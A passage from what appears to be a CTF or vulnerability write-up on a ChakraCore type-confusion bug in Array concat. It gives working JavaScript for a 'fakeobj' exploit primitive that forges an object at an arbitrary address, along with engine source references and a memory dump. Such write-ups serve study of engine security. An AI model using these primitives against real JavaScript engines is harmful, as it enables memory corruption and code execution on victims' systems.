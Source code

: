 Note that `dest[0]` and `dest[1]` now stores the value of the object's address ( lower part and upper part ), thus we can leak the object's memory address by combining `c[0]` & `c[1]`. 

### fakeobj
The goal of `fakeobj` is to fake a Javascript object at an arbitrary address. 

```javascript
    var a1 = [];
    for (var i = 0; i < 0x100; i++) {
        a1[i] = i;
    }

    var a2 = [lower(addr), upper(addr)]; // addr = arbitrary address


    var c = new Function();
    c[Symbol.species] = function() {
        new_array = [];
        return new_array;
    };
    a1.constructor = c;

    a2.__defineGetter__(Symbol.isConcatSpreadable, function () {
        new_array[0] = {};
        return true;
    });

    var res = a1.concat(a2);
    return res[0x100/2]; // res[128] = an object @ addr
```

Here when `var res = a1.concat(a2);` was executed, the ChakraCore engine will ran to line [3176](https://github.com/Microsoft/ChakraCore/blob/dd33b4ceaf4b38b44d279d13988ecbd31df46ed2/lib/Runtime/Library/JavascriptArray.cpp#L3176):

```
bool converted = CopyNativeIntArrayElements(pDestArray, idxDest, pItemArray);
```

Here `pDestArray` is **"suppose"** to be a `JavscriptNativeIntAarray`, but again, we pass the argument as a `JavascriptArray` data type instead, causing the type confusion vulnerability.

Later the lower part and the upper part of the address ( `a2[0]` & `a2[1]` ) will be appended into `pDestArray` ( in the form of `int32` ). The memory layout of `res` array will become:

```
.......................
0x00007ffff02d8408│+0x10: 0x000100000000007e  <-- res[126]
0x00007ffff02d8410│+0x18: 0x000100000000007f  <-- res[127]
0x00007ffff02d8418│+0x20: 0x00007ffff03d84f0  <-- res[128]
```

Due to type confusion, now `res` will be treated as `JavascriptArray` and think that `res[128]` is an object ( which its address = `0x00007ffff03d84f0` ). By returning `res[128]` we now have the fake object's handle.
